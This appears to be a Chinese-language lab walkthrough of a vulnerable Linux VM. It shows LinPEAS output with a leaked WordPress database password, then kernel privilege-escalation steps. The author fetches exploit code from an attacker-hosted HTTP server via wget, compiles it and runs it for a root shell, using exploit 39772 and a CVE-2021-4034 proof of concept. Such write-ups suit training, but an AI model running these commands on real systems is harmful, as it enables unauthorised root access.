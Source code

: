 Linpeas.sh信息枚举：******

1）用户信息枚举
JKanode:x:1013:1013::/home/JKanode:/bin/bash

peter信息：
peter:x:1000:1000:Peter,,,:/home/peter:/bin/zsh
uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

2）数据库信息泄露：
/var/www/https/blogblog/wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');
define('DB_HOST', 'localhost');

3）可写入sh文件
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
You can write script: /usr/local/sbin/cron-logrotate.sh
/usr/bin/gettext.sh

-rwxr-xr-x  1 root   root        4624 Feb 10  2016 gettext.sh


------------------------------------------------------

12、提权利用

1）内核提权-1
------------------------
40049是在64位提权的，这是32位系统linux！  --linux_x86-64/local/40049.c

searchsploit Linux Kernel 4.4.x   linux/local/39772.txt 可以利用
cp /usr/share/exploitdb/exploits/linux/local/39772.txt .

proxychains wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit   ---是存在compile.sh文件的

上传上去：
python -m SimpleHTTPServer 8082
wget http://10.211.55.19:8082/exploit.tar
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
chmod +x compile.sh
./compile.sh
ls    ----执行./doubleput
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
成功！

------------------------------------
2）内核提权-2
wget http://10.211.55.19:8081/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o dayu
chmod +x dayu
./dayu
